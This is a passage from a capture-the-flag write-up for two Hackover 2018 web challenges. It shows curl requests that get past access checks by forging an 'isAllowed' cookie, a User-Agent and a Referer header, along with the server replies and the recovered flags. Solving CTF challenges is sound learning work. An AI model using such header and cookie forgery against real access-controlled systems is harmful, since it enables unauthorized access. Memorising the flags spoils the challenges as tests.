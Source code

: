 Just modify the cookie and get the flag.

```sh
$ curl 'http://ez-web.ctf.hackover.de:8080/flag/flag.txt' --cookie "isAllowed=true"
hackover18{W3llD0n3,K1d.Th4tSh0tw4s1InAM1ll10n}
```

### i-love-heddha

(bookgin)

The challenge is almost the same as the last one. Starting with:
```sh
curl 'http://207.154.226.40:8080/flag/flag.txt' -sD - --cookie 'isAllowed=true'
HTTP/1.1 200 
Content-Type: text/plain;charset=UTF-8
Content-Length: 175
Date: Thu, 11 Oct 2018 01:46:47 GMT

<!DOCTYPE html>
	<head>
		<title>Wrong Browser detected</title>
	</head>
	<body>
		<p>You are using the wrong browser, 'Builder browser 1.0.1' is required</p>
	</body>
</html>
```

It's definitely user-agent:
```sh
$ curl 'http://207.154.226.40:8080/flag/flag.txt' --cookie 'isAllowed=true' -H 'User-Agent: Builder browser 1.0.1'
<!DOCTYPE html>
	<head>
		<title>Almost</title>
	</head>
	<body>
		<p>You are refered from the wrong location hackover.18 would be the correct place to come from.</p>
	</body>
</html>
```

It's referer, and then get the flag!

```sh
$ curl -s 'http://207.154.226.40:8080/flag/flag.txt' --cookie 'isAllowed=true' -H 'User-Agent: Builder browser 1.0.1' --referer 'hackover.18' | base64 -d
hackover18{4ngryW3bS3rv3rS4ysN0}
```

It's worth to mention here: after the problem released, it takes only about a few minutes and one team got the firstblood. Therfore, this problem should be intuitive and easy to tackle. 

On the contrary, we will stay away from some challenges that few teams solved, and those teams are not in top 30. This probably means the challenge itself is poorly designed, or some guessing / mind-reading the organizers is required such that even the top 10 teams cannot solve.
